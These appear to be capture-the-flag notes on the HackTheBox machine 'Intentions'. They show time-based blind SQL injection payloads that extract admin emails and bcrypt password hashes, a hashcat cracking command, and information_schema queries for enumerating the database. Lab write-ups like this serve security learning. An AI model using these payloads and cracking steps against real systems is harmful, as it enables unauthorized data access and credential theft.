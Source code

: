 Some emails:

```
barbara.goodwin@example.com
chackett@example.com
ellie.moore@example.com
```

`SELECT sleep(1) from users WHERE LEFT(email, {left})='{current}{c}' and admin=1 LIMIT 1`

```
greg@intentions.htb
steve@intentions.htb
```

`SELECT sleep(1) from users WHERE BINARY LEFT(password, {left})='{current}{c}' and admin=1 LIMIT 1`

`BINARY` is needed for this check to be case-sensitive.

```
$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa
$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m

$2y$10$5kUXqAfEfAJAn6LRrYlRV.HiwtzSI9yxBbWjUaOi9lOvYvmUVRBMW (my hash for "test")
```

By cracking 'test' it's confirmed that `.\hashcat.exe .\hashes.txt .\test-rockyou.txt -w 3 -m 3200` should work if it's in `rockyou.txt`. (I added "test" to the beginning of the file, to test my known hash)

# More enumeration

- version(): 10.6.12

- user(): laravel@localhost

- database(): intentions

- @@datadir: /var/lib/mysql/

`(SELECT group_concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='intentions' AND TABLE_NAME='users')`

```
id,name,email,password,created_at,updated_at,admin,genres
```

`(SELECT table_name FROM information_schema.tables WHERE table_schema = 'intentions' LIMIT 1 OFFSET 0)`

```
gallery_images
personal_access_tokens
migrations
users
```

`(SELECT group_concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='intentions' AND TABLE_NAME='personal_access_tokens')`
